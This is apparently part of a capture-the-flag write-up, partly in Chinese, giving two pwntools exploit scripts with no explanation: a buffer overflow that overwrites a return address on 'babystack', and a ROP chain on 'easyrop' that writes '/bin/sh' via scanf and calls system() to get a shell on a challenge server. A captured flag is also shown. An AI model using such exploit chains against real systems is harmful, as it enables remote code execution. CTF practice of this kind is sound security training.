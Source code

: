 不过多说了，直接exp

```
from pwn import *
p = remote('43.248.98.206',10041)
#p = process("./babystack")
context.log_level = 'debug'
payload = b'a'*20+p64(0x401195)
p.sendline(payload)
p.interactive()
```

![image-20221018181605349](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210181816411.png?x-oss-process=hzy)

hsctf{BAdvV0mQn_QuE3nkun}

## easyrop

rop

```
from pwn import *
#from LibcSearcher import *
context(log_level='debug',os='linux',arch='amd64')
r = remote("43.248.98.206",10046)
#r = process('./rop')
elf = ELF('./rop')


main=4007E3
scanf_plt = elf.plt['__isoc99_scanf']
PUTS_GOT = elf.got['puts']
RET = 0x004007D1
PUTS_PLT = elf.plt['puts']
MAIN_PLT = 0x4005F0
POP_RDI = 0x400873
pop_rsi_r15_ret = 0x0000000000400871
payload =  b'a'*(0x70+8)+ p64(POP_RDI) +p64(0x004008E9) + p64(pop_rsi_r15_ret) +p64(0x00601060+0x200)+p64(0)+p64(scanf_plt)+p64(RET)+p64(0x000000000400787)


r.sendline(payload)
r.sendline(b'/bin/sh;')

payload =  b'a'*(0x70+8)+ p64(POP_RDI) +p64(0x00601060+0x200) +p64(RET)+ p64(elf.plt['system'])

r.sendline(payload)
r.interactive()

```



![image-20221021133516416](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210211335516.png?x-oss-process=hzy)

